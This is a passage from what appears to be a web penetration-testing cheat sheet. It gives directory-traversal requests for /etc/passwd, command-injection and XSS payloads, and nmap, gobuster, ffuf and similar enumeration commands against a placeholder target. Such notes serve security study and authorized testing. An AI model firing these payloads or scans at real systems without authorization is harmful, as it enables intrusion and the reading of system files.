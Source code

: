 ### Directory Traversal
```bash
# Linux
curl "http://<target>/page.php?file=../../../../etc/passwd"
# Windows
curl "http://<target>/page.php?file=../../../../windows/system32/drivers/etc/hosts"
```

### Command Injection
```bash
# Basic payloads
; whoami
&& whoami
| whoami
` whoami `
$( whoami )
```

### Cross-Site Scripting (XSS)
```javascript
// Basic XSS payloads
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
javascript:alert('XSS')
```

## Tools and Commands

### Essential Web Enumeration Tools

```bash
# Nmap scripts for web enumeration
nmap --script http-enum <target>
nmap --script http-headers <target>
nmap --script http-methods <target>
nmap --script http-title <target>

# Directory enumeration
gobuster dir -u http://<target> -w /usr/share/wordlists/dirb/common.txt -x php,html,txt,js
feroxbuster -u http://<target> -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
dirsearch -u http://<target> -e php,html,js,txt,xml

# Subdomain enumeration
gobuster vhost -u http://<target> -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://<target> -H "Host: FUZZ.<target>"

# Parameter fuzzing
ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u http://<target>/page.php?FUZZ=test
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/common.txt --hc 404 http://<target>/FUZZ

# Technology detection
whatweb http://<target>
wafw00f http://<target>
```

